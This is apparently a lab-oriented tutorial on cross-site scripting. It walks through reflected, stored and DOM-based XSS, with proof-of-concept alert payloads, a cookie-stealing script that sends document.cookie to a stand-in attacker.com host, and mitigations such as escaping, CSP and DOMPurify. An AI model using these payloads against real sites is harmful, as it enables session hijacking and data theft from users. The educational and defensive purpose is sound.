

## CROSS-SITE SCRIPTING (XSS)
## INTRODUCTION
Cross-Site Scripting (XSS) is a client-side vulnerability that allows attackers to inject malicious scripts into web applications. These scripts run in a victim’s browser, enabling attackers to steal sensitive data, hijack user sessions, or perform actions on behalf of the user.

In this walkthrough, we’ll explore different types of XSS vulnerabilities, demonstrate how to exploit them, and discuss mitigation strategies.

### a) REFECTED XSS
#### OVERVIEW
Reflected XSS occurs when an application receives data in a request and includes the data within the immediate response in an unsafe way.

#### EXAMPLE EXPLOITATION
Consider a search functionality on an insecure website: https://insecure-website.com/search?term=gift
The response for the above URL looks like this:
```txt
<p>You searched for: gift</p>
```

**EXPLOTATION STEPS**
Assuming the app doesn't perform any other data processing, an attacker modifies the request to inject a malicious script:
```txt
https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>
```

The browser executes the script when the victim visits the link.
```txt
<p>You searched for: <script>/* Bad stuff here... */</script></p>
```

The attacker can modify the payload to steal session cookies:
```sh
<script>document.location='http://attacker.com?cookie='+document.cookie</script>
```
When executed, the victim’s session is sent to the attacker’s server.

#### REPLICATION ON A HOME LAB
Create a simple PHP script to simulate the vulnerability.


To test for the vulnerability, search for any term such as `test` to understand how the user input is handled.


From the screenshot above, user input is directly displayed on the page. As the attacker, modify the request by injecting a malicious script such  `<script>alert(1)</script>` on the website and observe how the website handles this request.


An alert box is displayed on the website confirming presence of the reflected xss vulnerability.


**EXPLANATION**
1. **User enters data** in the search box (e.g., `test`).
2. **PHP retrieves the input** via `$_GET['query']` and assigns it to `$query` parameter.
3. **The input is directly echoed** into the HTML page inside `<p>Results for: <b>$query</b></p>`.
4. If the user enters a **script instead of normal text**, the browser **executes the JavaScript** before the page fully loads hence the popup before the final input.

#### FIXING THIS VULNERABILITY
To mitigate this vulnerability in this particular script, user input needs to be sanitized. E.g using `htmlspecialchars()`
```sh
if (isset($_GET['query'])) {
    $query = htmlspecialchars($_GET['query'], ENT_QUOTES, 'UTF-8'); // Escape special characters
    echo "<p>Results for: <b>$query</b></p>"; 
}
```

This time when we try to input the payload, it get's displayed back to us as text.


Characters such as `<` or `>` become `&lt;` and `&gt;` respecitively.
Payload `<script>alert(1)</script>` when special characters are escaped become `&lt;script&gt;alert(1)&lt;/script&gt;` .
Without the opening and closing tags, the script payload is not executed.

| Character | Escaped Version | Meaning                   |
| --------- | --------------- | ------------------------- |
| <         | `&lt;`          | Less-than sign            |
| >         | `&gt;`          | Greater-than sign         |
| "         | `&quot`         | Double quote              |
| '         | `&#039`         | Single quote (apostrophe) |
| &         | `&amp;`         | Ampersand                 |

#### EXERCISES
##### NAHAMSEC TRAINING
Look at the web vulnerabilities lab offered on hacking hub: https://app.hackinghub.io/hubs/nahamsec-training

We have the following website that prompts a user to input their name.


When a user enters data in this case a name such as `test`, the website responds by displaying the name directly on the page.


As an attacker test the form by inputting an xss payload such as `<script>alert(1)</script>`, the website responds by executing the script instead of displaying it as text.


**EXPLANATION**
Since the browser interprets HTML and Javascript code, before the browser responds by rendering the `Hello, name` page, it executes the `<script>` tag contents. An attacker can leverage this vulnerability by stealing a session cookie and authenticating as the user.

### b) STORED XSS
#### OVERVIEW
Stored XSS, also known as Persistent XSS, occurs when a web application stores user input without sanitization and later displays it to other users. The malicious script is executed whenever a victim views the infected page.

#### REPLICATION IN OUR HOME LAB
We have a vulnerable website with a comment section where users can post messages.


A user submits a comment and their name on the website. The comment is stored in a database and displayed on the page without sanitization.


When we inspect how the website processes this output, we see that the comment is rendered directly on the page without escaping special characters.


To test for the vulnerability, we inject an XSS payload such as  `<script>alert(1)</script>`
Clicking the "Post Comment" button executes the JavaScript, displaying an alert popup.


On inspecting the page source, we confirm that the script is being executed because the browser processes it as valid JavaScript.


Reloading the page shows that the script persists and executes again, confirming that this is a **Stored XSS** vulnerability.

**EXPLANATION**
- Since the input is stored in the backend and later displayed on the page without sanitization, any JavaScript injected by an attacker will execute for all users who visit the page.
- This type of attack is particularly dangerous because it affects multiple users, unlike reflected XSS, which requires user interaction with a malicious link.

#### MITIGATION
For our replicated instance, we can mitigate this error by applying 2 mitigation techniques.

**STEP 1**
**Sanitize User Input:** Use `htmlspecialchars()` to escape special characters before storing or displaying data.
```php
$username = htmlspecialchars($_POST["username"], ENT_QUOTES, 'UTF-8');
$comment = htmlspecialchars($_POST["comment"], ENT_QUOTES, 'UTF-8');
```

**STEP 2**
Implement Content Security Policy (CSP): Restrict inline JavaScript execution to prevent existing stored XSS payloads from running.
```php
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'">
```
This time even if we reload the page, nothing happens.

Other mitigation techniques include:
- **Validate and Sanitize Data Before Storage:** Reject input containing dangerous characters instead of just escaping them at display time.

#### EXAMPLE
##### Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
Payload:  `http://evil.com?test&#039;-alert-&#039;`

We are going to try out an exercise from PortSwigger Web Academy.
##### Stored XSS into anchor href attribute with double quotes HTML-encoded
We have a website with multiple blogs, each containing a comment section. This exercise focuses on testing XSS vulnerabilities through the href attribute of anchor tags.


Populate the website with dummy data to observe how the application processes user input. We get the following response from the browser:


We can also observe that the comment we posted gets stored on the website, and anyone who visits the site can see our comment.


**ANALYZE THE COMMENT FIELD**
But also note something about the names, the name we entered when filling the comment is a hyperlink. When clicked the link redirects us to an `http://evil.com` website, which was input on the website field when filling the comment form. This means that the website field is probably where we have to put our payload.

This time we try use the `<script>alert(1)</script>` payload to see what happens. Our comment was successfully submitted but when we try to prompt it's execution by clicking on the name, we get this error:


To get better understanding on how user input is being processed, test the input field with alphanumeric characters such as `t3st`. When we inspect the page using developer tools, we can see that user input on the website parameter is embedded in a `href` attribute.


This attribute is usually used in HTML elements such as `<a>` anchor tags to specify a hyperlink reference to another webpage. It can also be used with Javascript through `javascript:` protocol to execute code when clicked.

Some research on payloads that would work within a href attribute: https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt led me to the `javascript:alert(1)` payload.

This time when the hyperlink is clicked, the browser executes the `alert(1)` function, confirming the presence of an XSS vulnerability.


**EXPLANATION AS TO WHY THE OTHER PAYLOADS FAILED**
The difference is majorly between the payloads is linked to how a browser interprets Javascript within different HTML contexts. 
- The `<script>` tag failed to execute because it was injected within an `href` attribute, which expects a valid URL. The browser treated `<script>alert(1)</script>` as an invalid link rather than executing the JavaScript
- The `javascript:` protocol works because anchor tags allow JavaScript execution when explicitly defined in the `href` attribute.

### c) DOM-Based XSS
#### OVERVIEW
DOM-Based XSS occurs when JavaScript takes data from an attacker-controllable source and passes it to a sink that executes it in the victim’s browser. This type of vulnerability is purely client-side and does not require server interaction..

#### UNDERSTANDING THE DOM AND TAINT-FLOW VULNERABILITIES
The DOM is a hierarchical representation of a webpage that allows JavaScript to dynamically manipulate elements and properties.
Web applications commonly use JavaScript to process and display user input within the DOM, which can introduce security risks if not handled securely.

##### TAINT-FLOW VULNERABILITIES
DOM-based vulnerabilities can be traced back to issues with how client-side code manipulates attacker-controllable data.
- **Sources**: Attacker-controlled data sources such as `location.search`, `document.referrer`, `document.cookie`, and web messages.
- **Sinks**: Potentially dangerous JavaScript functions or DOM objects that can execute injected scripts, such as:
	- `eval()` . This function is a sink because it processes the argument passed to it as Javascript.
	- `document.body.innerHTML`. This is a HTML sink because it potentially allows an attacker to inject malicious HTML and execute arbitrary JavaScript.
	- `document.write()` - Can insert and execute attacker-controlled content in the DOM.

For more information on the DOM visit: https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model/Introduction

A DOM-Based XSS vulnerability occurs when an application takes data from an untrusted source and writes it to a sink without proper sanitization.

#### TESTING FOR DOM-BASED XSS
1. **Identify sources**: Insert a random alphanumeric string into the source, e.g `location.search`, then use developer tools to inspect the website and determine where the string appears. Identify the context in which the string appears, refine input and see how it is processed.
2. **Analyze execution sinks**: Use the Javascript debugger to determine whether and how input is sent to a sink. Find cases within the page's JS code where source is being referenced. Use the debugger to add a breakpoint and follow how the source's value is used.
3. Test using DOM Invader. Burp's browser has an inbuilt DOM Invader extension

#### REPLICATION IN A HOME LAB
We have a vulnerable website with a search function that dynamically updates the page without proper sanitization.


**STEP BY STEP EXPLOITATION**
- **Search for a test string**: Enter an alphanumeric query such as `t3st` to observe how the input is processed.


- **Inspect the DOM**: Use developer tools to analyze how the query parameter is assigned to an element with `id="search-query"`.
- **Review Javascript code**
If we inspect the page further using our developer tools, we can see Javascript code that explains what is happening:


**JAVASCRIPT EXPLANATION**
```javascript
const params = new URLSearchParams(window.location.search);
const query = params.get('q');
```
- `window.location.search` : gets the query string from the current page's URL
- `new URLSearchParams`: is a JavaScript API, the entire string combined is basically the JavaScript API parsing the query string allowing us to extract values easily
- `params.get('q')`: fetches the value of the `q` parameter which in our case is `t3st` and assign it to a constant variable `query`

```javascript
if (query) {
	document.getElementById('search-query').innerHTML = query;
}
```
- If the variable `query` has a value (i.e if q is present in the URL) then find the element whose  `id="search-query"` and assign value of `q` parameter(i.e `query ="t3st"`) . The function being is executed is how Javascript overwrites HTML content .
- This is how DOM-based XSS is present, this line directly inject user input `query` into the page using `innerHTML`

Now that we have confirmed the vulnerability is present, we can inject our payload ``


The browser processes the injected HTML and executes the `onerror` event, triggering an alert box.

>[!NOTE]
>The `inner.HTML` sink does not accept `<script></script>` elements on any modern browser. Use alternatives such as `` or `<iframe>` elements in combination with event handlers such as `onload` or `onerror`

#### MITIGATIONS
- **Avoid dynamically inserting untrusted data into** `**innerHTML**`:
```sh
document.getElementById('search-query').textContent = query;
```
-  `textContent` safely inserts user input as text without executing it.
- We can apply the mitigation technique above and this time when we try executing the same payload, nothing happens! It simply gets displayed on the page as text.


**Other mitigation techniques include:**
- Sanitize user input before processing. Use libraries like DOMPurify to sanitize untrusted data:
```sh
document.getElementById('search-query').innerHTML = DOMPurify.sanitize(query);
```

- Implement a Content Security Policy (CSP). Restrict inline scripts and limit JavaScript execution:
```sh
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'">
```

#### EXAMPLE
We are going to try out an exercise from PortSwigger Web Academy.


From the lab description, we can identify the following:
```txt
document.write --->sink
location.search ----> source
```


We are also told the vulnerability lies in the search query tracking functionality. 

**STEP BY STEP EXPLOITATION**
So we begin by testing the `source` to see how it handles alphanumeric string.

When we inspect the page, we see that our string `z3nsh3ll` is embedded within an img tag.


To execute this payload, we first have to break out of the img tag using `">` then we add our payload.
We can reference payloads from the following resource: https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt

We are to call on the `alert` function as stated in the instructions so we can use the `"><svg onload=alert(1)>` payload listed in the resource.
And it works!!


### IMPACT OF XSS VULNERABILITIES
XSS vulnerabilities can lead to:
- Session hijacking 
- Phishing attacks
- Defacement
- Unauthorized actions on behalf of the user
- Data theft

## CONCLUSION
Cross-Site Scripting is a critical security vulnerability that can have severe consequences. Understanding how different types of XSS attacks work and implementing proper security measures can help protect web applications from exploitation. Always validate, sanitize, and escape user input, and use modern security mechanisms like Content Security Policy (CSP) to prevent XSS attacks.

**Further Reading:**
- 
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Prevention_Cheat_Sheet.html)
- [PayloadBox XSS Payload List](https://github.com/payloadbox/xss-payload-list)